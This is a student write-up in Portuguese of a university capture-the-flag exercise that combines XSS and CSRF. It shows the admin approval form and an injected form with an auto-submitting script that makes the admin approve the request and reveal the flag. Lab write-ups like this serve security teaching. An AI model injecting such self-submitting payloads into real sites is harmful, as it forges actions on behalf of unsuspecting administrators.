 # Trabalho realizado na Semana #6
## XSS + CSRF CTF
Começamos por entrar no site e instantaneamente nos deparamos com informação que vamos precisar de usar mais tarde, o id da request que vai ser realizada.
Com esta informação em mente, inserimos um texto qualquer no input para ver onde nos levaria e após alguns cliques chegamos a http://ctf-fsi.fe.up.pt:5005, a página onde o admin realiza a avaliação dos inputs.
Após analisarmos o código da página, descobrimos que o código usado para o botão Give The Flag é o seguinte, em que (id) representa o id da  request:
```
<form method="POST" action="request/(id)/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disable="">
        
    </div>
</form>
```
Utilizando este código juntamente com algum conhecimento de javascript fizemos o seguinte código que após ler a parte de javascript submete o form e nos dará a flag do desafio:
```
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/(id)/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag">
        
    </div>
    <script>
        document.forms[0].submit();
    </script>
</form>
```
Inserindo este código na zona de input após termos desativado a permição de usar javascript do site, para evitar sermos redirecionados para uma página à qual não temos acesso, somos então redirecionados para a página de avaliação do input, na qual ainda não está presente a flag devido ao site não ter atualizado por não ter acesso a javascript. Após um reload rápido, a flag que pretendiamos obter está presente no topo da página.
